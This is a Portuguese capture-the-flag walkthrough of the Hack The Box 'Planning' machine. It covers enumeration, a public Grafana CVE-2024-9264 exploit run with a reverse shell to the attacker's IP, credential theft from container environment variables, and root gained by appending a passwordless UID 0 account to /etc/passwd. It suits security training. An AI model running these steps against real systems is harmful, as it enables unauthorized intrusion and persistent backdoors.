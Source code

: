 #OS : Linux #Difficult : Easy
***
## Info
As is common in real life pentests, you will start the Planning box with credentials for the following account: admin / 0D5oT70Fq13EvB5r
***
## Enumeration
Como sempre, começamos fazendo uma varredura de portas no host.
```sh
nmap 10.10.11.68 -Pn -sV -A -oN scann_tcp
```
![[Pasted image 20250516163515.png]]

Como a porta `80` está aberta podemos acessar pela web. Mas ele tenta resolver para `planning.htb`, podemos adicionar aos hosts.
![[Pasted image 20250516163609.png]]

```sh
echo "10.10.11.68\tplanning.htb" >> /etc/hosts
```

Deixei uma enumeração de subdomínio rodando enquanto olhava o site.
```sh
ffuf -u http://planning.htb -H "Host: FUZZ.planning.htb" -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -fw 6
```
Não encontrei nada de interessante na página `web` mas descobri um novo subdomínio.
![[Pasted image 20250516170256.png]]

Podemos então adicionar esse subdomínio os nosso arquivo de hosts.
```sh
echo "10.10.11.68\tgrafana.planning.htb" >> /etc/hosts
```
****
## User
Ao acessar o novo subdomínio no navegador, temos uma tela de login para o Grafana `11.0.0`. Podemos usar as credenciais fornecidas no início da lab para logar.
![[Pasted image 20250516171125.png]]

Então procurei por algum `exploit` referente ao Grafana. E encontrei um que em tese seria um `RCE`.
![[Pasted image 20250516171320.png]]

Primeiro executamos um listener na porta em que vamos receber a shell.
```sh
nc -lvnp 4545
```

E depois baixamos e executamos o exploit.
```sh
git clone https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit.git
cd CVE-2024-9264-RCE-Exploit
python poc.py --url http://grafana.planning.htb --username admin --password 0D5oT70Fq13EvB5r --reverse-ip 10.10.x.x --reverse-port 4545
```

Entramos como `root` e sem uma shell decente, o que indica que estamos em um container ou uma sandbox. Podemos ver as variáveis de ambiente pois containers normalmente tem variáveis de ambiente para guardar configurações.
```sh
printenv
```
![[Pasted image 20250516174941.png]]

Agora que temos um usuário e uma senha, podemos tentar fazer login na máquina com esse usuário.
```sh
ssh enzo@planning.htb
```
![[Pasted image 20250516175116.png]]
***
## Root
Fiz algumas enumerações básicas como permissões `sudo`, `SUID` e `SGID` mas não achei nada. Até que olhei as portas que estão sendo usadas no sistema.
```sh
netstat -ntlp
```
![[Pasted image 20250516175727.png]]

Temos duas portas que costumam ser utilizadas em aplicações, podemos fazer um `port forwarding` para trazer o tráfego para a nossa máquina.
```sh
ssh -L 3000:127.0.0.1:3000 -L 8000:127.0.0.1:8000 enzo@planning.htb
```
![[Pasted image 20250516180132.png]]

Na porta `3000`, temos novamente a tela de login do `Grafana`.
```web
http://127.0.0.1:3000
```
![[Pasted image 20250516180543.png]]

Na porta `8000` temos uma autenticação `HTTP`.
```web
http://127.0.0.1:8000
```
![[Pasted image 20250516180711.png]]

Como não temos nenhum usuário e senha, comecei a vasculhar o host novamente, até que achei um arquivo de `cronjob` em `/opt/crontab/`. Onde tinha uma senha usada no `script` decompactação. 
```sh
cat /opt/crontabs/crontab.db | jq
```
![[Pasted image 20250516180953.png]]

Não temos o nome do usuário, mas pelo nome do arquivo que está sendo compactado, fiz uma suposição de que seria o `root`.
![[Pasted image 20250516181154.png]]

Entramos com sucesso no que parece ser uma aplicação de agendamento de tarefas pelo `crontab`.
![[Pasted image 20250516181253.png]]

Preparei um script em `/home/enzo/exploit.sh` para criar um usuário `root` sem senha.
```sh
#!/bin/bash
echo "root4::0:0:root4:/root:/bin/bash" >> /etc/passwd
```

```sh
chmod +x exploit.sh
```

E criei a tarefa para executa-lo a cada um mês, já que podemos executar a qualquer momento no botão `Run now`.
![[Pasted image 20250516181548.png]]

E então podemos executa-lo
![[Pasted image 20250516181727.png]]

Podemos verificar se o usuário foi criado com sucesso.
```sh
cat /etc/passwd
```
![[Pasted image 20250516182018.png]]

Podemos fazer login no usuário `root4` e verificar se temos acesso ao `/root`
```sh
su root4
ls ~
```
![[Pasted image 20250516182118.png]]
***
![[Pasted image 20250516182139.png]]